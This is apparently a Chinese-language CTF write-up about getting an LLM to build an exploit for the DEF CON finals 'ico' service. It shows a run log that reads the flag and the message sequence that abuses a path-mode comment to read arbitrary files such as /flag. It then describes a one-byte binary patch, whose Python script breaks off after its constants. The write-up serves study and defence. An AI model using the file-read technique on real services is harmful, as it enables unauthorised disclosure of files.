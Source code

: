 ```
[x] Opening connection to 127.0.0.1 on port 4265
[x] Opening connection to 127.0.0.1 on port 4265: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 4265: Done
Parsed fields:
- Author: 1B5B55E424237B0FF70D2DAE6D79F226
- Software: ico v0.1

Author (MD5 of flag): 1B5B55E424237B0FF70D2DAE6D79F226

Plaintext flag via comment: flag{WINNER_WINNER_CHICKEN_DINNER}

[*] Closed connection to 127.0.0.1 port 4265
```

我跑腳本後的第一個念頭是：LLM 作弊了，我以為它在做「獎勵駭入（reward hacking）」，只是開了我本機的檔案。
但我讀了兩遍程式碼，然後找了三位隊友也跑了這段程式碼，結果都證實：它真的有效。
在最少的人力投入之下，我靠著不斷提問、推促、請求，讓 LLM 為一題 DEF CON 決賽等級的挑戰做出可用的利用。

由寫出這段利用的 LLM 來解釋最後的利用再適合不過：

```
0x10 enables the session (ACK).
0x22 creates a default entry: it sets type at offset +48 to 2 (path mode), Author to g_FlagString (MD5-hex of /flag), Software to "ico v0.1".
0x31 length-prefixed blob sets the Comment value at offset +56 (we send "/flag").
0x30 returns the Comment. Because type==2, the server treats Comment as a path and returns file contents → plaintext flag.
```


# 修補（The Patch）

DEF CON 決賽是攻防賽，既然有利用就要防禦它，於是我直接問 LLM，結果只花了兩個提示就拿到解法與補丁腳本。
它的核心做法是把 VA 0x45F24D 那條「mov byte [*+0x30], 0x2」指令的立即數從 0x2 改成 0x1，把預設 comment 類型從 PATH(2) 改為 LITERAL(1)，以純 Python 腳本計算 ELF 對映並覆寫單一位元即可。

```
#!/usr/bin/env python3
"""
Minimal, pure-Python patcher for 'ico' to disable comment-as-path default.

It flips the immediate '2' -> '1' in the instruction at VA 0x45F24D:
    mov byte [<obj>+0x30], 0x2   ; sets comment type to PATH (2)
We change the imm8 to 0x1 so comment type defaults to LITERAL (1).

Implementation details:
- Computes file offset of the VA via ELF program headers (PT_LOAD mapping)
- Writes one byte at (file_off + 3), since the encoding is: C6 .. .. <imm8>

Usage:
  python3 patch_simple.py /path/to/ico
Creates /path/to/ico.bak backup.
"""

import os
import shutil
import struct
import sys
from typing import Tuple


TARGET_VA = 0x45F24D  # start of 'mov byte [*+0x30], 0x2'
IMM_DELTA = 3         # imm8 is the 4th byte in typical encoding C6 ?? disp8 imm8


```